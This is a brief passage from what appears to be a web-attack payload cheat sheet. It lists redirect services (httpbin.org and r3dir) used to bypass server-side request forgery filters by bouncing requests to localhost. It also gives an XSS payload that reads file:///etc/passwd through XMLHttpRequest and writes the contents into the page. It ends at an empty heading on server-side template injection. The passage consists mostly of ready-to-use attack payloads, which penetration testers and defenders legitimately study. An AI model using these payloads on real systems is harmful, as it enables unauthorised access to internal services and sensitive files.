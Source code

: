 **Bypass using Redirects**

- https://httpbin.org/
- https://github.com/Horlad/r3dir
````
https://httpbin.org/redirect-to?url=http://localhost
https://307.r3dir.me/--to/?url=http://localhost
````
**HTML - XSS**
````
<script>
x=new XMLHttpRequest;
x.onload=function(){  
document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>
````

## Server Side Template Injection

![SSTI Diagram](diagram.webp)

### Jinja2 (Python)

